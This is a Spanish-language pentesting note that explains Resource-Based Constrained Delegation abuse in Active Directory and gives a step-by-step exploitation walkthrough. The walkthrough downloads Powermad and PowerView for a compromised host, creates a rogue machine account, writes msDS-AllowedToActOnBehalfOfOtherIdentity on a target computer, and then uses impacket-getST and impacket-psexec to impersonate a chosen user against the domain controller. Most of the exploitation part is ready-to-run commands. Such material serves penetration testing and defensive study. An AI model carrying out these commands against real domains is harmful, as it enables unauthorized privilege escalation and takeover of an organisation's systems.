 -----
- Tags: #ataque #teoria #practica #windows 
-----
##### El Resource-based Constraint Delegation establece en el objeto quién puede suplantar a cualquier usuario en su contra.
##### En este caso, el objeto restringido tendrá un atributo llamado msDS-AllowedToActOnBehalfOfOtherIdentity con el nombre del usuario que puede suplantar a cualquier otro usuario en su contra.
###### Otra diferencia importante de esta Delegación restringida a las otras delegaciones es que cualquier usuario con permisos de escritura sobre una cuenta de máquina (GenericAll/GenericWrite/WriteDacl/WriteProperty/etc) puede configurar el msDS-AllowedToActOnBehalfOfOtherIdentity (En las otras formas de Delegación necesitaba administrador de dominio privs).

- ##### El atacante compromete una cuenta que tiene un SPN o crea uno ("Servicio A"). Tenga en cuenta que cualquier usuario administrador sin ningún otro privilegio especial puede crear hasta 10 objetos de equipo (MachineAccountQuota) y establecerles un SPN. Entonces, el atacante puede simplemente crear un objeto de computadora y establecer un SPN.
- ##### El atacante abusa de su privilegio de ESCRITURA sobre la computadora víctima (ServiceB) para configurar la delegación restringida basada en recursos para permitir que ServiceA suplante a cualquier usuario contra esa computadora víctima (ServiceB).
- ##### El atacante usa Rubeus (U otras maneras de explotar y realizar el ataque) para realizar un ataque S4U completo (S4U2Self y S4U2Proxy) del Servicio A al Servicio B para un usuario con acceso privilegiado al Servicio B.
	- ##### S4U2Self (de la cuenta SPN comprometida/creada): Solicite un TGS de administrador para mí (no reenviable).
	- ##### S4U2Proxy: use el TGS no reenviable del paso anterior para solicitar un TGS del administrador al host de la víctima.
	- ##### Incluso si está utilizando un TGS no reenviable, ya que está explotando la delegación restringida basada en recursos, funcionará.
- ##### El atacante puede pasar el ticket y hacerse pasar por el usuario para obtener acceso al ServiceB de la víctima.

### Explotación:

##### Así como se puede explotar con Rubeus, existen otras maneras, desde el script rbcd.py encontrado en github https://github.com/tothi/rbcd-attack, así como tambien usando las herramientas de impacket:

##### Lo primero que deberiamos hacer es crear el Computer Objetc, para esto usaremos powermad (Se recomienda tambien usar powerview)
- ##### Powermad: (wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) 
- ##### Powerview: (wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)
##### Ambos deberian transferirise a la maquina victima windows que tenemos pwneada, una vez en ella:

```powershell 
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
New-MachineAccount -MachineAccount {evilPC_name} -Password $(ConvertTo-SecureString '{evilPC_passwd}' -AsPlainText -Force) -Verbose
```

##### Una vez creada la maquina, podriamos (haciendo uso de powerview) ver si esta se creo correctamente: 

```powershell
Get-DomainComputer {evilPC_name}
```

#### Luego, haciendo uso de powerview declaramos algunas variables para realizar el ataque: 

```powershell
$targetComputer = {taget_Computer}

$ComputerSid = Get-DomainComputer {evilPC_name} -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Adicionalmente, una vez más, haciendo uso de powerview podriamos corroborar que todo haya salido ok, ejecutando: 

Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

# Lo que deberia arrojar: 
# msds-allowedtoactonbehalfofotheridentity

# ----------------------------------------

# {1, 0, 4, 128...}
```

#####  De esta manera habriamos realizado todo, solo quedaria solicitar un TGT a #KERBEROS para suplantar la identidad del usuario que deseemos. 
##### En nuestra maquina atacante con linux: 

```shell
impacket-getST -spn cifs/{dc} -impersonate {user_to_supplant} -dc-ip {dc_ip} {dc}/{evilPC_name}$:{evilPC_password}
```

##### De esta manera habriamos solicitado y conseguido el TGT para el usuario que desearamos, por lo que simplemente quedaria exportart la variable global KRB5CCNAME, y utilizar psexec para autenticarnos como el usuario suplantado: 

```shell
export KRB5CCNAME=$(pwd)/{user_to_supplant}.ccahe

impacket-psexec -k {dc}
```



